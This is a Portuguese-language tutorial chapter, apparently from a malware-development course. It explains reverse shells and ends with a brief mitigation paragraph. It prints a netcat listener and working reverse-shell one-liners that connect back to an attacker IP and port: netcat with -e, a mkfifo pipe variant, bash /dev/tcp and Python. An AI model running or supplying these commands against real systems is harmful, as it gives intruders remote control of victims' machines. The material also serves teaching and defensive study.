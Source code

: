 ## 3. Shells Reversas

![shells reversas](./images/4/2021-09-16_11-26.png){height=400px}    

Primeiramente, vamos entender o conceito de shell reversa, pois isso é um aspecto muito importante no desenvolvimento de malware.

### O que é uma shell reversa?

Uma shell reversa, frequentemente chamada de *connect-back shell*, é um shell remoto iniciado a partir do alvo ao se conectar de volta à máquina do atacante e abrir um shell no sistema do atacante. Isso é normalmente utilizado durante o processo de exploração para obter controle sobre a máquina remota.

![shells reversas](./images/4/shells.png)

A shell reversa pode tirar proveito de portas de saída comuns, como `80, 443, 8080`, entre outras.

Esse tipo de shell geralmente é usado quando a máquina-alvo bloqueia conexões de entrada em certas portas por meio de um firewall. Para contornar essa restrição, especialistas em Red Team e pentesters utilizam shells reversas.

No entanto, há uma desvantagem. Isso expõe o servidor de controle do atacante, e rastros podem ser capturados por serviços de monitoramento de segurança da rede da vítima.

Os três passos para obter uma shell reversa são:  
1. O atacante explora uma vulnerabilidade em um sistema ou rede alvo com a capacidade de executar código.  
2. O atacante configura um *listener* (escutador) em sua própria máquina.  
3. O atacante injeta a shell reversa no sistema vulnerável para explorar a falha.

Outra abordagem para obter uma shell reversa em ataques reais é através da engenharia social. Por exemplo, um malware instalado em uma estação de trabalho via e-mail de phishing ou um site malicioso pode iniciar uma conexão de saída com um servidor de comando e controle (C2) e fornecer aos hackers acesso remoto.

![engenharia social](./images/4/shells2.png){width="80%"}

O objetivo deste post não é explorar uma vulnerabilidade específica em um host ou rede, mas sim entender como identificar uma vulnerabilidade que possa ser usada para execução de código.

Dependendo do sistema instalado na máquina vítima e dos serviços em execução, a shell reversa pode variar. Pode ser `php, python, jsp`, entre outras.

---

### Listener

Para simplificar, neste exemplo a vítima permite conexões de saída em qualquer porta (regra padrão do firewall iptables). No nosso caso, usamos `4444` como porta de escuta. Você pode alterá-la conforme sua preferência. O *listener* pode ser qualquer programa ou utilitário que consiga abrir conexões TCP/UDP ou *sockets*. Na maioria dos casos, gosto de usar `nc` ou `netcat`.

```bash
nc -lvp 4444
```

Aqui, `-l` significa *listen* (escutar), `-v` significa *verbose* (modo detalhado) e `-p` define a porta `4444` em todas as interfaces. Você também pode adicionar `-n` para usar apenas endereços IP numéricos, sem DNS.

![listener](./images/4/2021-09-11_17-59.png)    

---

### Executando a shell reversa (exemplos)

Para simplificar, nos exemplos a seguir o alvo é uma máquina Linux.   
**1. Netcat**   
Executar:
```bash
nc -e /bin/sh 10.9.1.6 4444
```

Onde `10.9.1.6` é o IP da máquina do atacante e `4444` é a porta de escuta.   

![netcat](./images/4/2021-09-11_18-04.png){width="80%"}

**2. Netcat sem `-e`**    
Versões mais recentes do Linux possuem um netcat com `GAPING_SECURITY_HOLE` desativado, o que significa que a opção `-e` não está disponível.

Neste caso, na máquina da vítima, execute:
```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | 
/bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![netcat sem -e](./images/4/2021-09-11_18-23.png){width="80%"}

Aqui, primeiro criamos um *named pipe* (FIFO) chamado `p` usando o comando `mkfifo`. O comando `mkfifo` cria objetos no sistema de arquivos, e aqui ele é usado como um "backpipe" para redirecionar dados de volta para a entrada do shell.

**3. Bash**   
Isso não funciona em distribuições Debian antigas.   
Executar:
```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

![bash rev shell](./images/4/2021-09-11_18-12.png){width="80%"}

**4. Python**

Para criar uma shell semi-interativa usando Python, execute:
```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<LHOST>",<LPORT>));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![python rev shell](./images/4/2021-09-11_18-36.png){width="80%"}

Mais exemplos: [Github Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

---

### Mitigação

Infelizmente, não há uma maneira de bloquear completamente shells reversas. Se você não as utiliza para administração remota, qualquer conexão desse tipo provavelmente é maliciosa. Para limitar a exploração, restrinja conectividade de saída apenas para IPs e portas específicas necessárias para serviços confiáveis. Isso pode ser feito via sandboxing ou executando o servidor em um container minimalista.
